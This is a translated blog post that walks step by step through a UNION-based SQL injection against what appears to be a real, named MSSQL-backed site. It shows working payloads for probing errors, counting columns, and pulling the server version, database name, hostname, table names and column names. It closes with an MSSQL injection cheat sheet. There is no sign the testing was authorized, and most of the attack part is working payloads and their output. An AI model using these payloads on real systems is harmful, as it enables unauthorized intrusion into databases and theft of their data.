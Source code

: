 # 有趣的 SQL 注入 2 — MSSQL

> 原文：<https://infosecwriteups.com/fun-sql-injection-2-mssql-f2f3c83d0cf8?source=collection_archive---------1----------------------->

在这个场合，我想一步一步地讲述我最喜欢的另一种注射。

这是一个同事来找我一起测试的站点！

攻击发生的参数用于显示一个 PDF 文档，正是利用这个参数，我们引导自己发现这次注入将有多少列！我们开始了！

首先我们有链接

```
site/ejemplo/parametro[=25527](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527)
```

![](img/5ac0e3360600ac8b53ac3a8d5702b421.png)

这样我们就可以看到网站工作正常！..但是，正如大多数容易受到 sql 注入攻击的站点所发生的那样，只需在参数末尾添加一个',就可以看到 SQL 错误

**错误:**

```
site/ejemplo/parametro[=25527](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527)'
```

![](img/f25a02ef83929c1a0c753aaedc2fb8d2.png)

既然我们已经确定了站点是易受攻击的，并且我们知道我们正在处理的数据库，在本例中是 MSSQL，我们将检测列的数量，为此我们将使用 ORDER BY 函数。

**检测列数**

使用前面提到的函数，我们进行第一次测试，以验证站点是否允许我们使用这种列检测方法。

我们看到的第一件事是，当使用 order by 1 时，站点继续正常工作，但使用 order by 100 时，一切都会下降并向我们显示错误，这是一个非常好的方法，这意味着我们可以使用此方法来检测，例如:

```
site/ejemplo/parametro[=-25527](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527) order by 1 --
```

![](img/046f079ba84d547c56163ac3318449a7.png)

正如我们之前提到的，通过 1 排序，站点可以继续正常工作

```
site/ejemplo/parametro[=-25527](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527) order by 100 --
```

![](img/47a3e86e56a11b46abe1e400ce8a4940.png)

但是 100 的订单向我们展示了错误。

为了正确地找到列数，我们必须在它显示错误之前更接近该值，我在关于手动 sql 注入的文章中对此进行了更详细的解释，如果您还没有阅读它们，我建议您阅读它们，因为您可以更好地理解这一部分。

示例:

```
Order by 1 ---> sin error
Order by 2 ---> sin error
Order by 3 ---> sin error
Order by 4 ---> error
```

这意味着该网站有 3 列。

回到易受攻击的站点，它有 47 列

```
site/ejemplo/parametro[=-25527](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527) UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47 --
```

![](img/9bfa4b87e8fc0b81ad688644ad4e5b9e.png)

正如我们所看到的，添加一个包含 47 列的 union select 改变了错误消息，最有趣的是我们看到红色圆圈内有 2 个数字。

这些数字是易受攻击的列，我们将在这些列中引入句子来显示数据库中的信息！

```
site/ejemplo/parametro[=-25527](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527) UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,'_Y000_ LuisMadero',26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47 --
```

![](img/c097bf5302304f6eb90e04b38eb0cc80.png)

正如我们所看到的，第 25 列允许我们从数据库中写入和接收数据，我们将使用该列进行工作！

**版本**

```
site/ejemplo/parametro[=-25527](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527) UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,@@version,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47 --
```

![](img/2c9c5f1ee8e11c477ce27f72136fba9d.png)

```
message: Error de conversión al convertir el valor nvarchar 'Microsoft SQL Server 2008 R2 (RTM) - 10.50.1600.1 (X64) 
	Apr  2 2010 15:48:46 
	Copyright (c) Microsoft Corporation
	Standard Edition (64-bit) on Windows NT 6.1 &lt;X64&gt; (Build 7601: Service Pack 1)
' al tipo de datos smallint. (severity 16)
```

现在我们有了数据库的版本！

**数据库**

```
site/ejemplo/parametro[=-](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527)25527 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,(select top 1  name FROM master..sysdatabases),26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47--
```

现在，要获得我正在使用的数据库的名称:

```
(select top 1 name FROM master..sysdatabases)
```

因为数据库中易受攻击的函数的语法不允许我反映一个以上的值，也不允许连接。

因此，它给我的数据库的名称是“ADPR”。

**@ @服务器名**

为了知道这个值，我们只使用下面的有效载荷

```
-25527UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,@@SERVERNAME,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47
```

**列表表格**

要列出这些表，找到一个有效负载有点困难，因为正如我前面提到的，这个数据库不允许我同时显示多个结果，使用这个有效负载:

```
-25527UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,table_name,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47 from (select top 1 table_name from information_schema.tables order by 1) as a order by 1 desc--
```

我们使用“top 1”来列出该表，在本例中，数字 1 表示数据库中的 1 号表。

这种情况下。这个表叫做“CDLA Partidos”

**列表栏**

为此，我们使用前面有效负载的变体，但是现在我们将重点放在枚举该表的列上。

```
-25527UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,column_name,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47 from (select top 1 column_name from information_schema.columns where table_name='_CDLA_Partidos' order by 1) as 1 order by 1 desc--
```

按照同样的逻辑，更改“top”的数字会显示下一列。

第一列的名称称为“Prtd_IDPartidos”

> ***注意:我将把这个注入留到这里，不会显示太多信息，因为我不想损害站点。表格和列的名称说明了很多……***

**MSSQL SQL 注入作弊工具**

```
--           :     Comment Type 1
--+          :     Comment Type 2
--+-         :     SQL Comment
/**/         :     Inline Comment
;%00         :     Null Byte@@version    :     Current Version
user_name()  :     Current User
user         :     Current User
db_name()    :     Current Database
@@SERVERNAME :     HostnameTablesunion select table_name from (select top 1 table_name from information_schema.tables order by 1) as 1 order by 1 desc--Columnsunion select column_name from (select top 1 column_name from information_schema.columns where table_name='table' order by 1) as 1 order by 1 desc--Dump infounion select culumn form table--
```
